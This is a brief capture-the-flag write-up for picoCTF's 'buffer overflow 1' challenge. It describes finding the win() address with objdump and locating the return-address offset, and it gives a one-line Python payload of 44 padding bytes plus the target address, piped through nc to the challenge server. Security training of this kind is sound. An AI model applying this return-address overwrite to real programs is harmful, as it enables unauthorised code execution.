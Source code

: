 # buffer overflow 1

**objdump** tells addr of win() is `0x080491f6`

Trying different length of inputs more than 32 bytes helped to pinpoint where the return address (which is printed by the program) starts

```shell
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"\xf6\x91\x04\x08\n")' | nc saturn.picoctf.net 58700
```
